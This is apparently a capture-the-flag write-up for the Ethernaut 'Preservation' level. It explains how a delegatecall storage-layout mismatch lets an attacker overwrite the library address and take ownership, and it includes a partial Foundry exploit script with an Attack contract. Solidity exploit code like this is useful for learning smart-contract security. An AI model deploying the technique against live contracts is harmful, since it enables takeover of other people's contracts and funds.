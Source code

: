 - Goal 

1. The goal of this level is for you to claim ownership of the instance you are given.

- Solution

1. Preservation contract uses LibraryContract to set the time in the Preservation contract by using `delegatecall`.
2. As we know `delegatecall` runs the call in the context of the calle contract and updates the storage of the caller contract.
3. So, the caller and callee contract storage layout should be matched. If not it may result in storage collision bugs.
4. Here the Preservation contract doesn't matches the LibraryContract storage layout. 
5. I observed that calling `setSecondTime` updates the `timeZone1Library` address in the Preservation contract.
6. By exploiting this we can write our own attacker contract that implements the `setTime()` function and pass that address to the `setSecondTime()` function so that it will updte the `timeZone1Library` address in the Preservation contract.
7. I implemented the Attack contract in such a way that it matches the Preservation storage layout and instead of updating the `stiredTime` i updated the `owner`. And that makes our attack contract as the owner of the Preservation contract.

`PreservationSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Preservation} from "../src/Preservation.sol";

contract PreservationSolve is Script{
    Preservation public preservation = Preservation(0x67403A5bC365868E3f9800c6308ca3623Bb1e446);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("timeZone1Library Address : ", preservation.timeZone1Library());
        console.log("timeZone2Library Address : ", preservation.timeZone2Library());
        console.log("Owner : ", preservation.owner());
        
        Attack attack = new Attack();
        console.log("Attack Address : ", address(attack));
        

        attack.exploit();


        console.log("timeZone1Library Address : ", preservation.timeZone1Library());
        console.log("timeZone2Library Address : ", preservation.timeZone2Library());
        console.log("Owner : ", preservation.owner());

        vm.stopBroadcast();
    }
}

contract Attack{
    // matching Preservation Storage Layout
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner; 
    uint storedTime;


    function exploit() public {
        Preservation preservation = Preservation(0x67403A5bC365868E3f9800c6308ca3623Bb1e446);
```